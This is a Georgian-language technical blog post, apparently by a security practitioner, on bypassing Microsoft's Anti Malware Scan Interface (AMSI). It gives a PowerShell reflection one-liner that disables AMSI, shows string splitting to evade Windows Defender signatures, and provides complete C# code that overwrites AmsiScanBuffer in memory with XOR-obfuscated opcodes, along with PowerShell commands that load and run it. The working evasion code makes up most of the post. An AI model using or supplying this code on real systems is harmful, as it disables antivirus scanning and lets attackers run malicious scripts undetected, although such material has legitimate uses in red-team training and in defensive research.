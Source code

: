 ```yaml
---
title: "AMSI In-Memory Patching"
date: 2023-03-07T01:38:06+04:00
draft: false
---
```


# AMSI In-Memory Patching


<br><br>
**AMSI** ანუ **Anti Malware Scan Interface** არის Microsoft - ის მიერ შემუშავებული ტექნოლოგია, რომლის მიზანიც იყო და არის memory ში მავნე signature - ების დაფიქსირება და იგი პირველად გაჩნდა Windows 10 - ში. AMSI - ს შეუძლია შეანელოს "შემტევის" აქტივობები, თუმცა მასზე თავის არიდება არ არის რთული და დროის საკითხია.

თქვენ, რომ დაგუგლოთ `amsi bypass` ან `amsi evasion`, უამრავ გამზადებულ “ქომანდებს” ნახავთ, რომელთა ნახევარი უბრალოდ არ იმუშავებს. მიზეზი კი ის არის, რომ ანტივირუსი, რომელიც სისტემაზე არის, მუდმივად განიცდის განახლებას და “მზა” ქომანდები სულაც არ არის ისეთ “მზამზარეული” როგორიც ერთი შეხედვით ჩანდა.
<!--more-->
მაგალითად, ავიღოთ ეს ქომანდი, რომელიც 2016 წელს არის დაინტიფიცირებული:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

ამ ქომანდის მიზანი არის .NET reflection ტექნიკის დახმარებით მოახერხოს მემორიში `amsiInitFailed` ცვლადის შეცვლა, რის მერეც გაითიშება AMSI.

თუმცა, პრობლემა იმაშია რომ `AmsiUtils` სტრინგი იდენტიფიცირდება როგორც მავნე:

![Untitled](/images/amsi-1/Untitled.png)

მაშასადამე, საჭირო ხდება სტრინგის ე.წ “დამახინჯება” ანუ ობფუსკაცია.

მაგალითად:

![Untitled](/images/amsi-1//Untitled%201.png)

![Untitled](/images/amsi-1//Untitled%202.png)

თუმცა, პრობლემა ჯერ ვერ მოგვარდა. პრობლემა იმაშია რომ მსგავსი ე.წ “ბაიპასის” მეთოდები დამოკიდებულია პიროვნების კრეატიულობაზე (თუმცა დიდად არ მოითხოვს კრეატიულობას). საჭირო ხდება სხვანაირი მიდგომა. საჭიროა ქომანდების ძირფესვიანად გააზრება.

მსგავს შემთხვევებში საჭიროა გავიგოთ რა ქომანდებს ვაკოპირებთ, და ზოგადად როგორ მუშაობს AMSI.

თუმცა ეს პოსტი ეხება ცოტა სხვა საკითხს. იმისათვის, რომ არ ვიწვალოთ ბევრი ახალი იდეის მოფიქრებაზე, დაგვიჭრდება პირდაპირ მემორიში საჭირო ადგილას საჭირო ინსტრუქციების შეცვლა.

მაგალითად, **powershell.exe** როცა ვხსნით, ხდება **amsi.dll** ის ჩატვირთვა, შემდგომ ხდება `AmsiInitialize()` ფუნქციის გამოძახება, რომელიც ამზადებს გარემოს AMSI - სთვის. შემდგომ როცა `powershell` - ში ახალ ქომანდს გავუშვებთ ხდება:

1. `AmsiOpenSession()` ის გამოძახება
2. `AmsiScanBuffer()` ის გამოძახება    **// აქ ხდება შემომავალი ქომანდის შემოწმება**
3. `AmsiCloseSession()` ის გამოძახება ბოლოს.

ამჯერად ავიღოთ `AmsiScanBuffer` და ვნახოთ მისი ინსტრუქციები მემორიში `WinDBG` - ის დახმარებით:

ვსვავთ ე.წ `breakpoint` - ს, `amsi!AmsiScanBuffer` - ზე

**შენიშვნა:** `amsi!` ნიშნავს, რომ ვაკითხავთ `amsi.dll` ფაილს. ხოლო ძახილის შემდგომ ვწერთ ამ dll ში არსებულ დაექსპორტებულ ფუნქციას.

![Untitled](/images/amsi-1//Untitled%203.png)

და როდესაც რაიმე ქომანდს გავუშვებთ, და-trigger-დება:

![Untitled](/images/amsi-1//Untitled%204.png)

![Untitled](/images/amsi-1//Untitled%205.png)

ქვემოთა სურათზე ვხედავთ, რომ მოწმდება არგუმენტები, რომელიც გადავეცით `AmsiScanBuffer` - ს. თუ რაიმე არასწორია, მაშინ “ვხტებით” ინსტრუქციაზე:

```c
# 0x80070057h = E_INVALIDARG
mov eax, 0x80070057h
```

![Untitled](/images/amsi-1//Untitled%206.png)

შესაბამისად აქედან ვიგებთ, რომ თუკი `AmsiScanBuffer` - ს რაიმე რეგისტრი არ მოეწონა, მაშინ ხტება ბოლო ინსტრუქციებზე და ითიშება “amsi”.

დავწეროთ `C#` ში კოდი, რომელიც იპოვის მიმდინარე პროცესის მემორიში არსებულ `amsiScanBuffer` ფუნქციას და შევლის მას.

შენიშვნა: ქვემოთ მოცემულ კოდში, ვაკეთებთ XOR ოპერაციას ქვემოთ მოცემულ ბაიტებზე. რადგან, defender აღიქვავს კონკრეტულ ბაიტებს საეჭვოდ და ათრიგერებს. შესაბამისად აქ დაგვჭირდა XOR ოპერაციის გაკეთება. შემდგომ პოსტებში შევეხებით `AV Evasion` თემებს.
ჩვენი მიზანია `AmsiScanBuffer` - ის პირველი assembly ინსტრუქციები ჩავანაცვლოთ შემდეგი ბაიტებით:

```0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3```

```csharp
using System;
using System.Reflection;
using System.Security.Policy;
using System.Runtime.InteropServices;   // გვჭირდება WinAPI ფუნქციების დაიმპორტებისთვის
using System.Text;
using System.Collections.Generic;

namespace ClassLibrary1
{
    public class Class1
    {
		// საჭირო WinAPI ფუნქციების დეკლარაცია
        [DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        
        public static void runner()
        {
			// amsi.dll მოდულის მისამართის "აღება"
            IntPtr amsiPtr = GetModuleHandle("amsi.dll");
            StringBuilder haha = new StringBuilder();
			// "AmsiScanBuffer" - როგორც ერთ სტრინგს, Defender აღიქვავს, როგორც მავნე signature
            haha.Append("Am");
            haha.Append("si");
            haha.Append("Sc");
            haha.Append("an");
            haha.Append("Buffer");

			// "AmsiScanBuffer" მისამართის აღება amsi.dll მოდულიდან.
            var amsiScanBuf = GetProcAddress(amsiPtr, haha.ToString());

			// ეს hex ბაიტები იყო და-XOR-ებული 0xC სთან - ეს საჭირო იყო defender ისთვის გვერდის ავლისთვის.
            //new opcodes
            byte[] encodedopcodes = new byte[] { 0xB4, 0x5B, 0x0C, 0x0B, 0x8C, 0xCF };
            byte[] decodedOpcodes = new byte[6];
            List<byte> objList = new List<byte>();

            foreach (byte opcode in encodedopcodes)
            {
                objList.Add((byte)(opcode ^ 0xc));
            }
            objList.CopyTo(decodedOpcodes);

			// memory page - ისთვის შესაბამისი პერმიშენების მინიჭება - 0x40
            VirtualProtect(amsiScanBuf, (UIntPtr)encodedopcodes.Length, 0x40, out uint oldProtect);
            Marshal.Copy(decodedOpcodes, 0, amsiScanBuf, decodedOpcodes.Length);
        }
    }
}
```

აღსანიშნავია, რომ ეს უნდა შევინახოთ როგორც `.DLL` ფაილი და შემდგომ იგი უნდა ჩავტვირთოთ როგორც ახალი .NET Assembly:

```powershell
$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\Public\ClassLibrary1.dll")
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

პირველ რიგში დავრწმუნდეთ, რომ ეს ჩვენი სტრინგი: “**AmsiUtils**” დაფიქსირებადია Windows Defender - ის მიერ:

![Untitled](/images/amsi-1//Untitled%207.png)

ჩავტვირთოთ ჩვენი ახალი `.NET Assembly` მიმდინარე პროცესში:

![Untitled](/images/amsi-1//Untitled%208.png)

![Untitled](/images/amsi-1//Untitled%209.png)

შესაბამისად, დავინახეთ რომ პირდაპირ მემორიში "მაქინაციების" დახმარებით მივაღწიეთ მიზანს, გავთიშეთ **AMSI** ისე, რომ ანტივირუსი არ დათრიგერდა.

და ბოლოს, ყურადღებას ვამახვილებ შემდეგ კოდის ნაწილზე:


```csharp
 		[DllImport("kernel32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

```

თუ გსურთ, რომელიმე WinAPI ფუნქციის დაიმპორტება და რომ არ იწვალოთ ამ ფუნქციებისთვის დეკლარაციისთვის პარამეტრების მიწერა, შეგილიათ გამოიყენოთ ეს საიტი: https://www.pinvoke.net/


![Untitled](/images/amsi-1/pinvoke.png)